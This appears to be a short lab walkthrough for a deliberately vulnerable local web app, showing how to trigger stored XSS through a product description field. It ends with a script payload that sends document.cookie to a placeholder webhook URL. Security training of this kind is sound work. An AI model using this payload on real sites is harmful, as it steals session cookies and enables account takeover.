







## XSS

### Preparation

Go to `http://localhost:3000/settings` and set `XSS` -> `Stored XSS`



We will check feature `Add Product` or URL: `http://localhost:3000/product/add`



Test XSS in description (or another)



And submit. We have a product URL here:



Or you can see our product in `http://localhost:3000`



Click it!


`alert(1)` => We confirm XSS vulnerability occur here!

You can try payload:
```js
<script>
fetch(`YOUR-WEB-HOOK-URL?cookie=${document.cookie}`)
</script>
```

Done!

